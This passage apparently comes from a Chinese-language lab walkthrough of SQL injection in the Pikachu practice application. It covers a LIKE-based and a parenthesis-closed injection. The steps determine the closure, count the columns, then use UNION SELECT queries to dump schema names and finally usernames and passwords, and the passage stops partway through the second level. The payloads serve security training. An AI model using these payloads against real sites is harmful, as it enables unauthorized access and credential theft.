 get传参，构造**?name=1')**，发现报错，接着**判断数显位数**

```
')%''		//证实为like，并且闭合为)%',

?name=0' order by 3		//当输入4时报错，因此有3位数显
```



1. 爆库

   ```
   ?name=0' union select 1,2,database() --+
   ```


2. 爆表

   ```
   ?name=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="pikachu" --+
   ```


3. 爆列名

   ```
   ?name=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users" --+
   ```


4. 爆值

   ```
   ?name=0' union select 1,username,password from users --+
   ```




### xx型注入

#### 考点：判断闭合方式

#### 思路：

get传参，构造**?name=1')**，发现回显正常，接着**判断数显位数**

```
?name=1')
?name=1') union select 1,2--+	//当为两位时，正常显示
```



1. 爆库

   ```
   ?name=0') union select 1,database() --+
   ```


2. 爆表
